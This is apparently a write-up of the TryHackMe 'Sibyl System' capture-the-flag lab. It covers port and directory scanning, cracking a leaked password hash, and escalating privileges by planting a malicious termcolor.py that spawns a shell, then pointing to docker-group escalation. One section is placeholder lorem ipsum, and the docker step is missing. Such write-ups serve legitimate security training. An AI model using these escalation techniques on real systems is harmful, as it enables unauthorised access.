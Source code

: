 # Sibyl System: THM CTF

![date](https://img.shields.io/badge/date-02.07.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![linux category](https://img.shields.io/badge/category-linux-lightgrey.svg)
![score](https://img.shields.io/badge/score-200+-blue.svg)
![solves](https://img.shields.io/badge/solves-1+-brightgreen.svg)

## Description
The theme of the room is based on an Anime named Psycho Pass.
There are two flags in the machine!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

If you face any problem, contact [b31ngd3v](mailto:b31ngd3v@gmail.com)

## Before we start
Make sure -
1. You're connected to the vpn. **```(Important)```**
2. Your adblocker is disabled. [uBlock Origin, adblocker etc.] **```(Important)``` (or the site will not load.)**
3. You're using Chrome browser. **```(Highly Recommended)``` (for better experience)**


## Enumeration
> Q : Scan the machine, how many ports are open?

Open up your terminal and fire up nmap. Run nmap with ```nmap -sC -sV -oA nmap/ss 10.10.226.130```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/image.png?raw=true "nmap result")

Hmm, looks like the http server is running. We should check what is there.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-17-23.png?raw=true "port 80")

> Q : What is the hidden directory?

I'm going to use gobuster to discover the hidden directory. Run ```gobuster dir -u http://10.10.226.130/ -w directory-list-2.3-medium.txt --no-error```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-22-41.png?raw=true "gobuster result")
![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-26-55.png?raw=true "hidden directory")

I tried to login with admin:admin but it failed. Then I tried to intercept requests, but It doesn't sending any requests to verify given credentials.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-27-38.png?raw=true "login")

After inspecting the Login button, I found a function named login.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-28-12.png?raw=true "login")

I searched the function in the html file, and found the function along with username and hashed password.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-30-15.png?raw=true "login")

> Q : What is the password?

The hashed password was easy to crack. I just headed over to crackstation and submited the hash and it returned the password in plain text.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-31-42.png?raw=true "crackstation")

## Capture The Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-53-58.png?raw=true "dash")

Now we are logged in as chief. Let's check what permissions we have with ```sudo -l```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-56-04.png?raw=true "permissions")

Note. (ALL, !root) this looks suspicious, there is a chance that sudo is vulnerable. We'll check it later.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-28-51.png?raw=true "users")

Sibyl System has two users, chief and b31ngd3v. Let's check if there is somthing in the home directory of this user.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-55-24.png?raw=true "home")

Yes, we have a python file named `clickjacking-tester.py`. We only have read permission so we can't write init.

```
# Contributor(s): nigella (@nig)

from urllib.request import urlopen
from sys import argv, exit
from termcolor import cprint

__author__ = 'D4Vinci'

def check(url):
    ''' check given URL is vulnerable or not '''

    try:
        if 'http' not in url: url = 'http://' + url

        data = urlopen(url)
        headers = data.info()

        if not 'X-Frame-Options' in headers: return True

    except: return False


def create_poc(url):
    ''' create HTML page of given URL '''

    code = '''
<html>
   <head><title>Clickjack test page</title></head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src='{}' width='500' height='500'></iframe>
   </body>
</html>
    '''.format(url)

    with open(url + '.html', 'w') as f:
        f.write(code)
        f.close()


def main():
    ''' Everything comes together '''

    try: sites = open(argv[1], 'r').readlines()
    except: cprint('[*] Usage: python(3) clickjacking_tester.py <file_name>', 'magenta'); exit(0)

    for site in sites[0:]:
        cprint('\n[*] Checking ' + site, 'blue')
        status = check(site)

        if status:
            cprint(' [+] Website is vulnerable!', 'green')
            create_poc(site.split('\n')[0])
            cprint(' [*] Created a poc and saved to <URL>.html', 'green')

        elif not status: cprint(' [-] Website is not vulnerable!', 'blue')
        else: cprint('Every single thing is crashed, Python got mad, dude wtf you just did?', 'magenta')

if __name__ == '__main__': main()```

## Detailed solution
Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation *ullamco laboris* nisi ut aliquip ex ea commodo consequat.
```

Termcolor in not a default package in python, so if we crate a file names termcolor.py in the same directory python will run our file instade of the package files. Let's try this.

```echo "import os;os.system('/bin/bash')" > /home/chief/termcolor.py```

Now run the `clickjacking-tester.py` file as b31ngd3v

```sudo -u b31ngd3v python3 /home/chief/clickjacking-tester.py```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-59-26.png?raw=true "success")

> Q : User Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-00-34.png?raw=true "user.txt")

Now we'll check if sudo is vulnerable or not. (I'm taking about CVE-2019-14287)

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-56-29.png?raw=true "CVE-2019-14287 check")

No, the sudo is not vulnerable. Now let's check if user b31ngd3v is a member of any group or not.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-03-12.png?raw=true "id")

Yes, we are a member of docker group. Now head over to gtfobins and search for docker.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-03-45.png?raw=true "gtfobins")

Copy and paste the following line.

> Q : Root Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-05-28.png?raw=true "sudo access")


## Success

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/ezgif-2-76bb9beda24d.gif?raw=true "hacking statue of liberty")
